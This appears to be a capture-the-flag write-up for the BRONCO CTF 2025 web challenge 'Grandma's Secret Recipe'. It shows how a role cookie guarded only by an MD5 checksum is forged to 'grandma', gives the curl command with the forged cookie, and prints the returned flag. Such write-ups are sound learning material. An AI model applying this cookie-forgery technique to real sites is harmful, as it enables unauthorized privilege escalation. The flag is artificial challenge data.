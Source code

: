 --------------

### CTF-: BRONCO CTF 2025

--------------

![image](https://github.com/user-attachments/assets/701bde62-84df-4985-9561-4d9d69f1434e)

---------------

### CHALLENGES-:

----------------

- Web-:
 - Grandma's Secret Recipe
 - Mika's Autograph

----------------

### Grandma's Secret Recipe

-----------------

![image](https://github.com/user-attachments/assets/2ed8ef70-1f2c-4215-bed7-e6ca8c655f06)

------------------

- I checked  the curl shows 3 endpoints as seen below and that we are logged in as `kitchen helper`

![image](https://github.com/user-attachments/assets/7348f296-603a-4fd7-aa23-f1dfd254c47b)

- I ran `curl`  with `-v` for a verbose output which will include request and response headers.I noticed the role header and checksum containing an hash.

![image](https://github.com/user-attachments/assets/08014ebd-b0dd-41b8-9d10-2e62b239b503)

- I computed the hash for the value `kitchen helper` in md5 and got the same hash.

![image](https://github.com/user-attachments/assets/729da742-65f6-4a4c-bf26-c07ad0ffac0e)

- In order to get the flag, we need to create an hash with the value `grandma` and pass it to the route `/grandma` to get the flag

```bash
❯ curl https://grandma.web.broncoctf.xyz/grandma -H "Cookie: role=grandma;checksum=a5d19cdd5fd1a8f664c0ee2b5e293167"

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Grandma's Bakery</title>
    <style>
        body { font-family: 'Comic Sans MS', cursive, sans-serif; background-color: #ffe5b4; text-align: center; }
        .container { margin-top: 50px; padding: 20px; background: #fff8dc; border-radius: 10px; display: inline-block; box-shadow: 0px 0px 10px rgba(0, 0, 0, 0.1); }
        .flag { font-weight: bold; color: green; }
        .btn { display: inline-block; padding: 10px 20px; margin: 10px; background-color: #d2691e; color: white; text-decoration: none; border-radius: 5px; }
        h1 { color: #8b0000; }
    </style>
</head>
<body>
    <div class="container">
        <h1>Welcome to Grandma's Bakery!</h1>
        <p>Grandma&#39;s Secret Recipe: </p>
        <p class="flag">Flag: bronco{grandma-makes-b3tter-cookies-than-girl-scouts-and-i-w1ll-fight-you-over-th@t-fact}</p>
        <br>
        <a class="btn" href="/login">Login</a>
        <a class="btn" href="/logout">Logout</a>
        <a class="btn" href="/grandma">Grandma's Pantry</a>
    </div>
</body>
</html>%
```

- Flag-: ```bronco{grandma-makes-b3tter-cookies-than-girl-scouts-and-i-w1ll-fight-you-over-th@t-fact}```




